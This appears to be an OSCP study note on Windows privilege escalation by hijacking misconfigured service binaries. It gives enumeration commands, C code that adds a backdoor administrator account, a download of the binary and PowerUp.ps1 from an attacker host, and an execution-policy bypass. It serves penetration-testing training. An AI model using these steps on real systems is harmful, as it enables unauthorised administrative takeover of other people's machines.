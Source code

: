 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/i-windows-privilege-escalation/5-service-hijacking/","updated":"2024-01-05T11:35:06.896+01:00"}
---
```


- A Windows Service is a long-running background executable or application managed by the Service Control Manager.
- They are similar to daemons on Unix
- Windows Services can be managed by the Services snap-in, PowerShell, or sc.exe.
- Services are run by LocalSystem (NT AUTHORITY, SYSTEM, BUILTIN), Network Service, and Local Service user accounts.
- Users or programs creating a service can choose either one of those accounts, a domain user, or a local user.

--------
### Writable Files + Directories

Writable files from root directory:
```
cmd /c 'dir C:\ /a-r-d /s /b'
```

Writable directories from root directory:
```
cmd /c 'dir C:\ /ad-r /s /b'
```

-------------
### Manual Service Binary Hijacking
- Each Windows service has an associated binary file.
- They are executed when the service is started or transitioned into a running state.
- An unprivileged user can tamper with misconfigured services being run by higher authority to privesc.
- Look for services with binaries outside of the System32 folder, since they are probably installed and configured by the user manually.

1. Enumerate running processes to identify any to abuse:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Alt. Get-Service ... Get-WmiObject ... services.msc
```
2. Enumerate permissions for the identified services:
```powershell
icacls "C:\xampp\apache\bin\httpd.exe"

Alt. Get-ACL

Permissions:
F: Full access
M: Modify access
RX: Read and execute access
R: Read-only access
W: Write-only access
```
3. Create malicious binary. Example in C which will create a new user:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user zombie password123! /add");
  i = system ("net localgroup administrators zombie /add");
  
  return 0;
}
```
4. Cross-compile it to an 64-bit .exe for Windows:
```bash
x86_64-w64-mingw32-gcc <file>.c -o <file>.exe
```
5. Serve the binary, download it, and move it to the correct directory:
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move <pre-path> <post-path>
```
6. Try to restart the service manually (if permissioned):
```powershell
net stop <servicename>
net start <servicename>

#Or run:
Restart-Service <servicename>

#Service name is not the binary file
```
7. If not possible check if it starts again on reboot:
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<servicename>'}
```
8. Check if is privileged to restart system (the state should not matter):
```powershell
whoami /priv
```
9. Issue a system reboot using:
```powershell
shutdown /r /t 0
```
10. Remember to repair the binary after escalation!

------------
### Automatic Service Hijacking with PowerUp:
1. Serve the PowerUp.ps1 on your kali machine.
2. Download the script:
```powershell
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```
4. Run the script with bypass:
```powershell
 powershell -ep bypass
 . .\PowerUp.ps1
```
5. Now check modifiable services identified:
```powershell
Get-ModifiableServiceFile
```
6. Try to use the built-in AbuseFunction to install a service binary (where name is Service Name listed from above command):
```powershell
Install-ServiceBinary -Name 'mysql'
```
7. Win!
